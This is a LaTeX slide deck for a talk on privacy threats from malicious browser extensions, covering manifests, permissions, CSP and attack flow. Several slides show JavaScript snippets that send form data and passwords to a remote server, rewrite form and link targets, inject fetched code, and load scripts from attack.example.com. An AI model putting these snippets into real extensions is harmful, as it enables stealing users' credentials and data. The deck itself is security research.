% !TeX spellcheck = en_US
\documentclass[accentcolor=tud9c,colorbacktitle,xcolor=dvipsnames]{tudbeamer}
\usepackage[utf8]{inputenc}
\usepackage[ngerman]{babel}
\usepackage{listings}
\usepackage{lstlinebgrd}
\usepackage{tikz}
\usepackage{pgf-pie}
\usepackage{pgfplots}



\usetikzlibrary{shapes,arrows}

\tikzstyle{decision} = [diamond, draw, fill=blue!20,text width=4.5em, text badly centered, node distance=3cm, inner sep=0pt]
\tikzstyle{block} = [rectangle, draw, fill=blue!20, text width=5em, text centered, rounded corners, minimum height=4em]
\tikzstyle{line} = [draw, -latex']
\tikzstyle{cloud} = [draw, ellipse,fill=red!20, node distance=3cm, minimum height=2em]


\lstdefinelanguage{JavaScript}{
    keywords={typeof, new, true, false, catch, function, return, null, catch, switch, var, if, in, while, do, else, case, break},
    keywordstyle=\color{blue}\bfseries,
    ndkeywords={class, export, boolean, throw, implements, import, this},
    ndkeywordstyle=\color{darkgray}\bfseries,
    identifierstyle=\color{black},
    sensitive=false,
    comment=[l]{//},
    morecomment=[s]{/*}{*/},
    commentstyle=\color{purple}\ttfamily,
    stringstyle=\color{red}\ttfamily,
    morestring=[b]',
    morestring=[b]"
}

\lstset{
	basicstyle=\small,
	columns=fullflexible,
	keepspaces=true,
	numbers=left,
	xleftmargin=2.3em,
	literate={-}{-}1
	{*}{*}1,
	upquote=true,  
	tabsize=4,
    escapechar=!,
}



\newcommand{\highlight}[4]{%
	\ifnum\value{lstnumber}=#1\color{orange!30}\fi%
	\ifnum\value{lstnumber}=#2\color{orange!30}\fi%
	\ifnum\value{lstnumber}=#3\color{orange!30}\fi%
	\ifnum\value{lstnumber}=#4\color{orange!30}\fi%	
}

\title{Privacy Threat Analysis Of Browser Extensions}
\author{Arno Manfred Krause}

\begin{document}

\begin{titleframe}
\end{titleframe}	

\begin{frame}
	\frametitle{Browser Extensions}
	\begin{tikzpicture}
        \node at (1,1) {
\includegraphics[scale=0.3]{./graphics/ghostery.png}};
        \node at (7,2.5) {
\includegraphics[scale=0.5]{./graphics/noscript.png}};
        \node at (3,5) {
\includegraphics[scale=0.3]{./graphics/adblock.png}};
    \end{tikzpicture}
\end{frame}

\begin{frame}
	\frametitle{Not Browser Extensions}
   	\begin{tikzpicture}
        \node at (8,1) {
\includegraphics[scale=0.4]{./graphics/flash.jpg}};
        \node at (1,2.5) {
\includegraphics[scale=0.13]{./graphics/java.png}};
        \node at (5,5) {
\includegraphics[scale=0.25]{./graphics/adobe.png}};
    \end{tikzpicture}
\end{frame}

\begin{frame}[plain]
  	\begin{tikzpicture}
       \node at (0,2) {
\includegraphics[scale=0.7]{./graphics/febipos.png}};
       \node at (3,0) {
\includegraphics[scale=0.7]{./graphics/kilim.png}};
   \end{tikzpicture}
    \vskip0pt plus 1filll
    \begin{footnotesize}
        \url{https://www.microsoft.com/security/portal/threat/Threats.aspx}
    \end{footnotesize}
\end{frame}

\begin{frame}[plain]
  	\begin{tikzpicture}
      \node at (0,4) {
\includegraphics[scale=0.4]{./graphics/hola.png}};
      \node at (0,0) {
\includegraphics[scale=0.4]{./graphics/adiosHola.png}};
    \end{tikzpicture}
    \vskip0pt plus 1filll
    \begin{footnotesize}
        \url{https://chrome.google.com/webstore/detail/gkojfkhlekighikafcpjkiklfbnlmeio} \\
        \url{http://adios-hola.org/}
    \end{footnotesize}
\end{frame}

\begin{frame}
    \frametitle{Outline}
    \begin{block}{What is the purpose of our work?}
        \begin{itemize}
            \item Demonstrate the threat of browser extensions
            \item Focus on targeted attacks
        \end{itemize}
    \end{block}
    \begin{block}{What is the content of our work?}
        \begin{itemize}
            \item Overview of the extension architecture
            \item Threat analysis
            \item Design and implementation
            \item Evaluation
            \item Countermeasures
        \end{itemize}
    \end{block}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Extension Manifest - Meta Information}
	\begin{lstlisting}[linebackgroundcolor={\highlight{2}{3}{4}{0}}]
{
	"manifest_version": 2,
	"name": "Extension Name",
	"version": "1.1.2"	
}
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Extension Manifest - Background}
	\begin{lstlisting}[linebackgroundcolor={\highlight{5}{6}{7}{0}}]
{
	"manifest_version": 2,
	"name": "Extension Name",
	"version": "1.1.2",
	"background": {
		"scripts": [ "background.js" ]
	}
}
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Extension Manifest - Content Scripts}
	\begin{lstlisting}[linebackgroundcolor={\highlight{8}{9}{10}{11}}]
{
	"manifest_version": 2,
	"name": "Extension Name",
	"version": "1.1.2",
	"background": {
		"scripts": [ "background.js" ]
	},
	"content_scripts": [
		{ 	"js": [ "content.js" ],
			"matches": [ "http://*/*", "https://*/*" ] }
	]
}
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Extension Manifest - Permissions}
	\begin{lstlisting}[linebackgroundcolor={\highlight{12}{0}{0}{0}}]
{
	"manifest_version": 2,
	"name": "Extension Name",
	"version": "1.1.2",
	"background": {
		"scripts": [ "background.js" ]
	},
	"content_scripts": [
		{ 	"js": [ "content.js" ],
			"matches": [ "http://*/*", "https://*/*" ] }
	],
	"permissions": [ "cookies", "history", "http://*/*", "https://*/*" ]
}
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Extension Manifest - Permissions}
	\begin{lstlisting}
{
	"manifest_version": 2,
	"name": "Extension Name",
	"version": "1.1.2",
	"background": {
		"scripts": [ "background.js" ]
	},
	"content_scripts": [
		{ 	"js": [ "content.js" ],
			"matches": [ "http://*/*", "https://*/*" ] }
	],
	"permissions": [ !\colorbox{orange!30}{"cookies", "history",}!"http://*/*", "https://*/*" ]
}
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Extension Manifest - Permissions}
	\begin{lstlisting}
{
	"manifest_version": 2,
	"name": "Extension Name",
	"version": "1.1.2",
	"background": {
		"scripts": [ "background.js" ]
	},
	"content_scripts": [
		{ 	"js": [ "content.js" ],
			"matches": [ "http://*/*", "https://*/*" ] }
	],
	"permissions": [ "cookies", "history", !\colorbox{orange!30}{"http://*/*", "https://*/*"]}!
}
\end{lstlisting}
\end{frame}

\begin{frame}
    \frametitle{Content Security Policy (CSP)}
    \begin{block}{Default CSP of an extension}
        \begin{center}
            \texttt{script-src: 'self' object-src: 'self'}
        \end{center}
         \begin{itemize}
            \item Allows only scripts from the extension's installation for \texttt{<script>}
            \item Allows only resources for \texttt{<object>}, \texttt{<applet>}, and \texttt{<embed>} from the extension's installation
            \item Disables \texttt{eval}
            \item Disables inline scripts (<script>[code]</script>)
            \item Disables inline event handler (\texttt{<button onclick="[code]"/>})
        \end{itemize}
    \end{block}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Extension Manifest - Content Security Policy}
	\begin{lstlisting}[linebackgroundcolor={\highlight{13}{14}{0}{0}}]
{
	"manifest_version": 2,
	"name": "Extension Name",
	"version": "1.1.2",
	"background": {
		"scripts": [ "background.js" ]
	},
	"content_scripts": [
		{ 	"js": [ "content.js" ],
			"matches": [ "http://*/*", "https://*/*" ] }
	],
	"permissions": [ "cookies", "history", "http://*/*", "https://*/*" ],
	"content_security_policy": 
		"script-src 'self' https://*.example.com/ 'unsafe-eval'; object-src 'self'"	
}
\end{lstlisting}
\end{frame}


\begin{frame}
    \frametitle{Threat Analysis}
\end{frame}

\begin{frame}
    \frametitle{Threat Analysis - Content Scripts}
    \begin{block}{Using a content script an extension is able to ...}
        \begin{itemize}
            \item collect information inserted by the user
            \item collect information displayed inside the web page
            \item manipulate displayed information
            \item redirect the user to harmful web pages
            \item execute unrestricted web requests
        \end{itemize}
    \end{block}
\end{frame}

\begin{frame}
    \frametitle{Threat Analysis - Browser API and Permissions}
    \begin{columns}[T]
        \begin{column}[T]{0.5\textwidth}
            \begin{block}{\texttt{background}}
                \begin{itemize}
                    \item Execute attacks without browser window
                \end{itemize}
            \end{block}
            \begin{block}{\texttt{downloads}}
                \begin{itemize}
                    \item Download and open harmful file
                    \item Exchange downloaded files
                \end{itemize}
            \end{block}
            \begin{block}{\texttt{webRequest}}
                \begin{itemize}
                    \item Remove security relevant header
                    \item Intercept all requests
                \end{itemize}
            \end{block} 
        \end{column}
        \begin{column}[T]{0.5\textwidth}
           \begin{block}{\texttt{cookies}}
               \begin{itemize}
                   \item Extract session cookies
                \end{itemize}
            \end{block}
           \begin{block}{\texttt{geolocation}}
               \begin{itemize}
                   \item Localize the user
               \end{itemize}
           \end{block}  
           \begin{block}{\texttt{management}}
               \begin{itemize}
                   \item Disable other extensions
                \end{itemize}
            \end{block}  
            \begin{block}{\texttt{system}}
                \begin{itemize}
                    \item Identify current device
                 \end{itemize}
             \end{block}             
        \end{column}
    \end{columns}
\end{frame}

\begin{frame}
    \frametitle{Design and Implementation}
\end{frame}

\def\scaleX{0.55}
\def\scaleY{0.25}
\begin{frame}
    \frametitle{Design and Implementation - Flow Pattern}
    \begin{tikzpicture}[auto]
    % Place nodes
    \node [block] (collect) at (0*\scaleX,20*\scaleY) {Collect user data};
    \node [cloud] (extension) at (16*\scaleX, 20*\scaleY) {Extension};
    \node [cloud] (server) at (0*\scaleX, 0*\scaleY) {Remote Server};
    % Draw edges
    \path [line, dashed] (extension) -- (collect);
    \end{tikzpicture}
\end{frame} 

\begin{frame}
    \frametitle{Design and Implementation - Flow Pattern}
    \begin{tikzpicture}[auto]
    % Place nodes
    \node [block] (collect) at (0*\scaleX,20*\scaleY) {Collect user data};
    \node [block] (transfer) at (4*\scaleX,15*\scaleY) {Transfer to remote server};
    \node [cloud] (extension) at (16*\scaleX, 20*\scaleY) {Extension};
    \node [cloud] (server) at (0*\scaleX, 0*\scaleY) {Remote Server};
    % Draw edges
    \path [line] (collect) -- (transfer);
    \path [line, dashed] (extension) -- (collect);
    \path [line, dashed] (extension) -- (transfer);
    \end{tikzpicture}
\end{frame} 

\begin{frame}
    \frametitle{Design and Implementation - Flow Pattern}
    \begin{tikzpicture}[auto]
    % Place nodes
    \node [block] (collect) at (0*\scaleX,20*\scaleY) {Collect user data};
    \node [block] (transfer) at (4*\scaleX,15*\scaleY) {Transfer to remote server};
    \node [block] (identification) at (8*\scaleX,10*\scaleY) {Identify user};
    \node [cloud] (extension) at (16*\scaleX, 20*\scaleY) {Extension};
    \node [cloud] (server) at (0*\scaleX, 0*\scaleY) {Remote Server};
    % Draw edges
    \path [line] (collect) -- (transfer);
    \path [line] (transfer) -- (identification);
    \path [line, dashed] (extension) -- (collect);
    \path [line, dashed] (extension) -- (transfer);
    \path [line, dashed] (server) -- (identification);
    \end{tikzpicture}
\end{frame} 

\begin{frame}
    \frametitle{Design and Implementation - Flow Pattern}
    \begin{tikzpicture}[auto]
    % Place nodes
    \node [block] (collect) at (0*\scaleX,20*\scaleY) {Collect user data};
    \node [block] (transfer) at (4*\scaleX,15*\scaleY) {Transfer to remote server};
    \node [block] (identification) at (8*\scaleX,10*\scaleY) {Identify user};
    \node [block] (fetch) at(12*\scaleX,5*\scaleY) {Fetch code for attack vectors};
    \node [cloud] (extension) at (16*\scaleX, 20*\scaleY) {Extension};
    \node [cloud] (server) at (0*\scaleX, 0*\scaleY) {Remote Server};
    % Draw edges
    \path [line] (collect) -- (transfer);
    \path [line] (transfer) -- (identification);
    \path [line] (identification) -- (fetch);
    \path [line, dashed] (extension) -- (collect);
    \path [line, dashed] (extension) -- (transfer);
    \path [line, dashed] (extension) -- (fetch);
    \path [line, dashed] (server) -- (identification);
    \end{tikzpicture}
\end{frame} 

\begin{frame}
    \frametitle{Design and Implementation - Flow Pattern}
    \begin{tikzpicture}[auto]
    % Place nodes
    \node [block] (collect) at (0*\scaleX,20*\scaleY) {Collect user data};
    \node [block] (transfer) at (4*\scaleX,15*\scaleY) {Transfer to remote server};
    \node [block] (identification) at (8*\scaleX,10*\scaleY) {Identify user};
    \node [block] (fetch) at(12*\scaleX,5*\scaleY) {Fetch code for attack vectors};
    \node [block] (execute) at (16*\scaleX,0*\scaleY) {Execute targeted attack};
    \node [cloud] (extension) at (16*\scaleX, 20*\scaleY) {Extension};
    \node [cloud] (server) at (0*\scaleX, 0*\scaleY) {Remote Server};
    % Draw edges
    \path [line] (collect) -- (transfer);
    \path [line] (transfer) -- (identification);
    \path [line] (identification) -- (fetch);
    \path [line] (fetch) -- (execute);
    \path [line, dashed] (extension) -- (collect);
    \path [line, dashed] (extension) -- (transfer);
    \path [line, dashed] (extension) -- (fetch);
    \path [line, dashed] (extension) -- (execute);
    \path [line, dashed] (server) -- (identification);
    \end{tikzpicture}
\end{frame} 

\begin{frame}
    \frametitle{Design and Implementation - Structure}
    
\includegraphics[scale=0.3]{./graphics/design_overview.jpeg}
\end{frame}

\begin{frame}
    \frametitle{Design and Implementation - Identification \\ \textit{Unique Identifier}}
    \begin{block}{Store a unique identifier inside the extension's storage}
        \begin{itemize}
            \item Persistent storage
            \item No build-in user interface to clear extension storage
            \item Simplifies identification the next time 
        \end{itemize}
    \end{block}
\end{frame}

\begin{frame}
    \frametitle{Design and Implementation - Identification \\ \textit{WebBeacon}}
    \begin{block}{}
        \begin{itemize}
            \item Embed content from tracking party into web page
            \item Commonly small image, 1 pixel in size
            \item Transfers potential tracking cookies when loaded
        \end{itemize}
    \end{block}
\end{frame}

\begin{frame}
    \frametitle{Design and Implementation - Identification \\ \textit{Fingerprinting}}
    \begin{block}{Fingerprinting values accessible through JavaScript}
        \begin{columns}[T]
            \begin{column}[T]{6cm}
                \begin{itemize}
                    \item Operating System Name
                    \item Browser Name
                    \item Screen Size
                    \item Screen Resolution
                    \item Timezone
                    \item Browser Language
                    \item Operating System Languages
                \end{itemize}
            \end{column}
            \begin{column}[T]{7cm}
                \begin{itemize}
                    \item[] Win32
                    \item[] Mozilla/5.0 Firefox/44.0
                    \item[] 1366 * 768 (pixel)
                    \item[] 24 (byte per pixel)
                    \item[] -60 (equals UTC+1)
                    \item[] en
                    \item[] de, en-US, en
                \end{itemize}
            \end{column}
        \end{columns}
    \end{block}
\end{frame}

\begin{frame}
    \frametitle{Design and Implementation - Identification \\ \textit{Fingerprinting}}
    \begin{block}{Additional fingerprinting information}
    \begin{columns}[T]
        \begin{column}[T]{3.3cm}
            \begin{itemize}
                \item \texttt{system.cpu}
                \item[]
                \item \texttt{system.memory}
                \item \texttt{management}
            \end{itemize}
        \end{column}
        \begin{column}[T]{7cm}
            \begin{itemize}
                \item[] Number of kernels, processor's name and features (SSE, AVX)
                \item[] Memory capacity
                \item[] List of installed extensions
            \end{itemize}
        \end{column}
    \end{columns}
    \end{block}
\end{frame}
\begin{frame}
    \frametitle{Design and Implementation - Identification \\ \textit{Personal User Data}}
    \begin{block}{Targeted web applications}
        \begin{itemize}
            \item Social media
            \item Online banking
            \item E-Mail clients
        \end{itemize}
    \end{block}
\end{frame}

\begin{frame}
    \frametitle{Design and Implementation - Structure}
    
\includegraphics[scale=0.3]{./graphics/design_overview.jpeg}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Design and Implementation - Communication \\ \textit{XMLHttpRequest}}
    \begin{block}{Example of an XHR implementation}
        \begin{lstlisting}[language=JavaScript]
var request = new XMLHttpRequest();
request.open("POST", REMOTE_URL);
request.addEventListener('load', function(event) { handleResponse() });
request.send(message);
\end{lstlisting}
    \end{block}
    \begin{block}{Host permissions matching all web pages}
        \begin{itemize}
            \item \texttt{http://*/*, https://*/*}
            \item \texttt{<all\_urls>}
        \end{itemize}
    \end{block}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Design and Implementation - Communication \\ \textit{XMLHttpRequest}}
    \begin{block}{Programmatically Injection}
        \begin{lstlisting}[language=JavaScript]
chrome.tabs.executeScript(tabId, { 'code': fetchedSourceCode });
\end{lstlisting}
    \end{block} 
    \begin{block}{Modified Content Security Policy}
        \begin{lstlisting}
{
...
    "content_security_policy": 
        "script-src 'self'!\colorbox{orange!30}{'unsafe-eval'}!; object-src 'self'"	
}
\end{lstlisting}       
    \end{block}
\end{frame}

\begin{frame}[plain]
    
\includegraphics[scale=0.6]{./graphics/iframe.png}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Design and Implementation - Communication \\ \textit{Iframe Element}}
        \begin{block}{HTML}
            \begin{lstlisting}[language=HTML, numbers=none]
<iframe scr="https://www.wikipedia.org"></iframe>
\end{lstlisting}
    \end{block}
    \begin{block}{JavaScript}
        \begin{columns}[T]
            \begin{column}[T]{0.4\textwidth} 
                \begin{block}{}
                    \begin{lstlisting}[language=JavaScript]
var url = REMOTE_URL;
url += '?foo=bar';
iframe.setAttribute('src', url);
\end{lstlisting}
                \end{block}
            \end{column}
            \begin{column}[T]{0.5\textwidth}
                 
\includegraphics[scale=0.3]{./graphics/iframe.png}
            \end{column}
        \end{columns}
    \end{block}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Design and Implementation - Communication \\ \textit{Script Element}}
    \begin{block}{HTML}
        \begin{lstlisting}[language=HTML, numbers=none]
<script src="https://attack.example.com"></script>   
\end{lstlisting}
    \end{block} 
    \begin{block}{Modified Content Security Policy}
        \begin{lstlisting}
{
...
    "content_security_policy": 
        "script-src 'self'!\colorbox{orange!30}{'https://*.example.com/'}!; object-src 'self'"	
}
\end{lstlisting}       
    \end{block}    
\end{frame}

\begin{frame}
    \frametitle{Design and Implementation - Structure}
    
\includegraphics[scale=0.3]{./graphics/design_overview.jpeg}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Design and Implementation - Attack Vectors \\ Obtain Sensitive Data}
    \begin{block}{Obtain Form Data}
        \begin{lstlisting}[language=JavaScript, numbers=none]
$('form').submit(function() { send($(this).serialize()); });
\end{lstlisting}
    \end{block}
    \begin{block}{Obtain Credentials}
        \begin{lstlisting}[language=JavaScript, numbers=none]
send($('input[type=password]').closest('form').serialize());
\end{lstlisting}
    \end{block}
    \begin{block}{Obtain Displayed Data}
        \begin{lstlisting}[language=JavaScript, numbers=none]
send($(cssSelector).text());
\end{lstlisting}        
    \end{block}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Design and Implementation - Attack Vectors \\ Manipulate Content}
    \begin{block}{Manipulate Form Attribute}
        \begin{lstlisting}[language=JavaScript, numbers=none]
$('input[name=target]').val('manipulated');
\end{lstlisting}        
    \end{block}
   \begin{block}{Manipulate Form Target}
       \begin{lstlisting}[language=JavaScript, numbers=none]
$('form').attr('action', REMOTE_SERVER_URL);
\end{lstlisting}        
    \end{block}
   \begin{block}{Manipulate Link Target}
       \begin{lstlisting}[language=JavaScript, numbers=none]
$('a[href=' + TARGETED_URL + ']').attr('href', REMOTE_SERVER_URL);
\end{lstlisting}        
    \end{block}
\end{frame}

\begin{frame}[fragile]
   \frametitle{Design and Implementation - Attack Vectors \\ Execute Attack In Background}  
   \begin{block}{Load web page in iframe}
       \begin{itemize}
           \item \lstinline[language=JavaScript]|$('<iframe>').attr('src', TARGET_URL).hide().appendTo(document.body);| 
       \end{itemize}
   \end{block}
   \begin{block}{Load web page in inactive tab}
        \begin{itemize}
            \item \lstinline[language=JavaScript]|chrome.tabs.query({active: false});|
            \item  \lstinline[language=JavaScript]|chrome.tabs.update(tabId, {url: TARGET_URL});|
        \end{itemize}   
   \end{block}
   \begin{block}{Load web page in background window}
       \begin{itemize}
           \item  \lstinline[language=JavaScript]|chrome.tabs.query({currentWindow: false});|
           \item  \lstinline[language=JavaScript]|chrome.tabs.create({url: TARGET_URL, windowId: windowId});}|
       \end{itemize}    
   \end{block}
\end{frame}

\begin{frame}
    \frametitle{Design and Implementation - Attack Vectors \\ Download Harmful Files}

    
\end{frame}

\begin{frame}
    \frametitle{Design and Implementation - Attack Vectors \\ Other Attack Vectors}
    \begin{block}{Steal cookies}
        \begin{itemize}
            \item \texttt{cookies} 
            \item \texttt{http://*/*, https://*/*}
        \end{itemize}
    \end{block}
    \begin{block}{Disable other extensions}
        \begin{itemize}
            \item \texttt{management}
        \end{itemize}
    \end{block}
    \begin{block}{Remove security relevant HTTP header}
        \begin{itemize}
            \item \texttt{webRequest}
            \item \texttt{webRequestBlocking}
            \item \texttt{http://*/*, https://*/*}
        \end{itemize}
    \end{block}
\end{frame}

\begin{frame}  
    \frametitle{Evaluation}
\end{frame}

{ % all template changes are local to this group.
    \setbeamertemplate{navigation symbols}{}
    \begin{frame}[plain]
        \begin{tikzpicture}[remember picture,overlay]
        \node[at=(current page.center)] {
